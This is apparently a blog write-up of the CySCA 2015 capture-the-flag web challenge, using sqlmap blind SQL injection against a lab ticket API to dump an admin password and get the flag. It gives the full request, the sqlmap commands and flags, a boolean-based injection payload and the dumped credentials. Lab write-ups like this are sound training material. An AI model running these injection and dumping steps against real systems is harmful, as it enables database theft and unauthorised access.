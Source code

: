 ```yaml
---
title: CySCA 2015 - Web Application Pentest 5 - Turn it On & Off Again
author: nickw
layout: post

categories:
  - Blog
  - Security
---
```


<div style="font-size:0.7em"><i>Note: If you're interested in actually doing these challenges, <a href="/post/2015/cysca-2015/">check out this post</a> on 
how to get the environment set up.</i>
</div>


* * *

As an executive, we notice we've got some additional functionality. We notice 
another menu item "IT Support" and the "Executive Board" option on the home
page. 

Since the challenge is called "Turn it on and off", we will have a poke around 
the IT support section.

The IT Section appears to be an area which allows users to submit IT Tickets. We
notice that it makes API requests to another server, namely `support.ecwi.cysca`.

Loading the list of tickets, we notice a POST request to 
`http://support.ecwi.cysca/ticket/get`, with the payload: 
`{uid: "5", secret: "4Da20BBfG19362c1b4ad6dea4A3aE9G3"}`.  The returned 
data is just a JSON list of tickets. 

Since we haven't had an SQL challenge yet, we pull out SQLMap and try to 
see what we can find. 

We copy the request from burp and save it into a file called tickets.txt:

{% highlight text %}
POST /ticket/get HTTP/1.1
Host: support.ecwi.cysca
Proxy-Connection: keep-alive
Content-Length: 55
Accept: application/json, text/javascript, */*; q=0.01
Origin: http://10.0.0.2
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_10_5) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/46.0.2490.86 Safari/537.36
Content-Type: application/json; charset=UTF-8
Referer: http://10.0.0.2/service/tickets
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.8

{"uid":"5","secret":"4Da20BBfG19362c1b4ad6dea4A3aE9G3"}
{% endhighlight %}


Lets run sqlmap using that request. `sqlmap -r tickets.txt`. When burp asks 
"JSON data found in POST data. Do you want to process it? [Y/n/q]", we answer 
with "y"

{% highlight text %}
[18:12:04] [WARNING] (custom) POST parameter 'JSON uid' does not appear dynamic
[18:12:04] [CRITICAL] not authorized, try to provide right HTTP authentication type and valid credentials (401)
[18:12:04] [WARNING] HTTP error codes detected during run:
401 (Unauthorized) - 2 times
{% endhighlight %}


Hmm, 401 errors. That's okay. We do some googling, and find that sqlmap actually
has an option to ignore 401 errors (provided you're running the latest version 
- 1.0-dev-69bc875). We run again, this time using 
`sqlmap -r tickets.txt --ignore-401`

{% highlight text %}
[18:12:39] [WARNING] (custom) POST parameter 'JSON secret' is not injectable
{% endhighlight %}

Still no dice. Let's increase the level: `sqlmap -r tickets.txt  --ignore-401 --level=3`.
That did the job:

{% highlight text %}
sqlmap identified the following injection point(s) with a total of 187 HTTP(s) requests:
---
Parameter: JSON uid ((custom) POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: {"uid":"5" AND 6601=6601 AND "rgyW"="rgyW","secret":"4Da20BBfG19362c1b4ad6dea4A3aE9G3"}
---
{% endhighlight %}

Awesome. Let's get some data out of this database. We use multiple threads to 
speed up the collection, since this is a blind injection. Additionally, it looks 
**totally badass**.
`sqlmap.py -r tickets.txt  --ignore-401 --level=3 --tables --threads=10`:

{% highlight text %}
[5 tables]
+----------------+
| ecwidb_replies |
| ecwidb_tickets |
| ecwidb_tokens  |
| ecwidb_users   |
| ticket_replies |
+----------------+
{% endhighlight %}

Users looks like a place we should look. Lets take a look in there: 
`sqlmap.py -r tickets.txt  --ignore-401 --level=3 --dump -T ecwidb_users --threads=10`

{% highlight text %}
Table: ecwidb_users
[1 entry]
+---------+-----------+-----------+
| tid     | tusername | tpassword |
+---------+-----------+-----------+
| <blank> | <blank>   | <blank>   |
+---------+-----------+-----------+
{% endhighlight %}

Weird. We google the issue with returning blank results, and find 
[issue 861](https://github.com/sqlmapproject/sqlmap/issues/861). We re-run using
the suggestion of `--time-sec=20`. `sqlmap.py -r tickets.txt  --ignore-401 --level=3 --dump -T ecwidb_users --threads=2 --time-sec=20`.

{% highlight text %}
Table: ecwidb_users
[1 entry]
+----+----------+--------------------+
| id | username | password           |
+----+----------+--------------------+
| 1  | admin    | #d0ntev3nTryn00bz! |
+----+----------+--------------------+
{% endhighlight %}

We've now got the password to the IT support system, however, we don't know 
where to put it. We're going to need to hunt for a login page.

Navigating to `http://support.ecwi.cysca/` gies us a 404 page, so does 
`http://support.ecwi.cysca/login`. Maybe if we try 
`http://support.ecwi.cysca/admin/`. Interesting. We get a Flask/WSGI looking
"Unauthorized" message. Since we know this is some sort of working endpoint, 
we browse to `http://support.ecwi.cysca/admin/login`. Out pops a login page.

We log in, revealing the flag:

> FLAG{4a000000000000000000000000000000}

